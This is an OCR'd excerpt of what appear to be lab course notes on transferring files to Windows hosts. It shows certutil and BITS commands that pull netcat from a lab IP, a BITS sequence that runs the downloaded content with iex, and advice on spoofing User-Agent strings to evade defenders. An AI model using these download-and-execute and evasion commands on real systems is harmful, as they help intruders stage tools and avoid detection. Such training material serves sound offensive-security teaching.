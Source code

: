 Certutil
--------

##
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
##

##
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
##

BITS
----

##
PS C:\htb> Import-Module bitstransfer;

PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;

PS C:\htb> $r=gc $env:temp\t;

PS C:\htb> rm $env:temp\t; 

PS C:\htb> iex $r
##

##
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
##

Evading Detection
=================

Changing User-Agent
-------------------

In case diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

##
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)
